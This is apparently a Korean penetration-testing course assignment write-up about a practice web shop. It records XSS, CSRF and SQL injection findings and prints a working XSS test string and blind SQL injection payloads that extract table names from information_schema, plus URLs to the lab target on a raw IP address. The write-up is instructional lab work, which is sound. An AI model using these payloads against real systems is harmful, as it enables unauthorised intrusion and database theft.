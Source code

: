 # Penetration-Testing1 - SQL injection, XSS, CSRF

과제1) 모든 취약점 찾기

1. Quick Search창에서의 XSS 취약점 - <script>alert("xss")</script>를 대입하였을때 동작함.

![image](https://user-images.githubusercontent.com/82012857/176285510-f6908bb4-5a26-4577-a64b-77c077e90c5c.png)

2. Board에서의 CSRF 취약점 - 1번과 마찬가지로 HTML로 글 작성시 XSS에 반응하여 CSRF 취약점이 있다는 것을 알 수 있음.

![image](https://user-images.githubusercontent.com/82012857/176285525-016dce9f-44fa-4034-bc10-b012649fceb3.png)

3. 입력창에서의 SQL injection - 거의 모든 입력창에 대해서 비정상적인 SQL구문에 대해서 답을 함 

![image](https://user-images.githubusercontent.com/82012857/176285549-6b1343a9-c8ba-42c1-869b-b8a75733aae4.png)

4. 쿠키값 탈취로 사용자 세션 하이재킹(?)

![image](https://user-images.githubusercontent.com/82012857/176285565-aaab7a95-8eba-4f7a-b0ce-372202f42513.png)

과제2) information_schema.table를 활용해서 첫번째 테이블과 두번째 테이블 이름 찾기(검색이 필요)

1. 주소찾기에서 blind SQL injection을 통해 한글자씩 검색한 결과 첫번째 테이블은 9글자의 order_man이라는 결과를 얻었다.

SQL 구문
' or substring((select top 1 table_name  from information_schema.tables),1,1) = 'o' --
' or (select top 1 LEN(table_name)  from information_schema.tables) = 9 --
' or (select top 1 table_name  from information_schema.tables) = 'order_man' -- 

첫번째 테이블 답: order_man

2. 첫번째 테이블인 order_man을 where문에 not in하여 top1을 하면 두번째 테이블에 대해 검색할 수 있다. 그 후 첫번째 테이블과 동일한 방식으로 검색한 결과 5글자의 paper이라는 결과를 얻었다.

SQL 구문
' or substring((select top 1 table_name  from information_schema.tables where table_name not in ('order_man')),1,1) = 'p' --
p q r s t 
' or (select top 1 LEN(table_name)  from information_schema.tables where table_name not in ('order_man')) = 5 --
' or (select top 1 table_name  from information_schema.tables where table_name not in ('order_man')) = 'paper' -- 

두번째 테이블 답: paper

http://61.39.155.24:50003/demoshop/shop/shop_main.asp
http://61.39.155.24:50003/demoshop/login/findNewaddr.asp
